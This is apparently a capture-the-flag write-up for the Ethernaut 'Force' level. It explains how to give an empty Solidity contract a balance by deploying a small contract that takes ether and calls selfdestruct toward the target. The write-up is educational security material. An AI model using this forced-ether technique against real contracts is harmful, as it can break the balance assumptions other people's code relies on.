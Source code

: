 # Task

The goal of this level is to make the balance of the contract greater than zero.

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
This contract code appears to be an empty contract with ASCII art comment

![image](https://github.com/user-attachments/assets/7fbb2b9a-332d-447f-a336-16e659af176f)

"The best way to attack a contract is with another contract." hinted to the `selfdestruct` operation

You can read more about it [here](https://www.alchemy.com/overviews/selfdestruct-solidity)

Since, they hinted us to using another contract, this means we'll have to write a contract that that accepts ether as payment and then self destructs.

Below is our attack contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

contract drawFunds {

    constructor(address payable _owner) payable {
        require(msg.value > 0, "Not enough");
        selfdestruct(_owner);
    }

}
```
